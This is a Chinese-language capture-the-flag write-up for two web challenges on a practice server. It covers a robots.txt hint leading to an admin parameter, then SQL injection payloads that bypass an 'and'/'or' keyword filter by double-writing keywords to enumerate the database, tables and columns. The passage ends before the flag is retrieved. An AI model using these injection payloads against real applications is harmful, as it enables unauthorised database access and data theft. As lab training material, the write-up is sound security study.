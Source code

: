 ## 1、细心

地址：<http://123.206.87.240:8002/web13/>

想办法变成admin

![1555505541000](1555505541000.png)

是一个自定义404页面，提示没有该文件或该目录。于是想到一般网站都存在一个文件[robots.txt](https://baike.baidu.com/item/robot.txt)  访问

![1555505920243](1555505920243.png)

![1555505966470](1555505966470.png)

提示不是管理员，下面代码提示传参，于是  ?x=admin 登录即可获取flag。

## 2、多次

[http://123.206.87.240:9004](http://123.206.87.240:9004/)

!

当

```
http://123.206.87.240:9004/1ndex.php?id=5 
```

提示sql注入

![1555516544488](1555516544488.png)然后就尝试出入，

```
http://123.206.87.240:9004/1ndex.php?id=1' #
http://123.206.87.240:9004/1ndex.php?id=1' and 1=1 %23//报错
http://123.206.87.240:9004/1ndex.php?id=1' or 1=1 %23//报错
http://123.206.87.240:9004/1ndex.php?id=1'^ (1=2) %23 //显示正常
```

  过滤了and 和 or，考虑可能存在其他过滤，尝试异或(相同为假，不同为真)注入 `^` 

fuzz 之后，发现这些都被过滤了。

![1555668270439](1555668270439.png)

![1555668310355](1555668310355.png)

之后尝试各种绕过。发现可以双写绕过

```
//查询列数
http://123.206.87.240:9004/1ndex.php?id=0' anandd 1=2 uniunionon  selselectect  1,2 %23  

//数据库名
http://123.206.87.240:9004/1ndex.php?id=0'  uniunionon  selselectect  1,database() %23

//爆表明
http://123.206.87.240:9004/1ndex.php?id=0' anandd 1=2 uniunionon  selselectect  1,group_concat(table_name) from infoorrmation_schema.tables where table_schema=database() %23
//  结果flag hint 

//列
http://123.206.87.240:9004/1ndex.php?id=0' anandd 1=2 uniunionon  selselectect 1, group_concat(column_name) from infoorrmation_schema.columns where table_schema=database() anandd table_name='flag1' %23
//结果 flag address

```